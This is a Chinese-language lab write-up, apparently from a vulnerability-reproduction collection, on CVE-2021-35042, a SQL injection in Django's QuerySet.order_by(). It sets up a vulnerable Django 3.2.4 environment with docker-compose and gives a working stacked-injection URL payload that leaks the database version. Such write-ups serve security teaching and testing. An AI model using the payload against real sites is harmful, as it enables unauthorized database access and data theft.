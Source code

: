 # Django QuerySet.order_by() SQL注入漏洞

# CVE-2021-35042

## 漏洞描述

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控order_by传入的值，在预期列的位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

访问页面`http://your-ip:8000/vuln/`，在GET参数中构造`order=-id`，会得到根据id降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```

![image-20220222171428294](./images/202202221714341.png)

再构造GET参数`order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入SQL语句，利用堆叠注入获得信息：

![image-20220222171548110](./images/202202221715188.png)

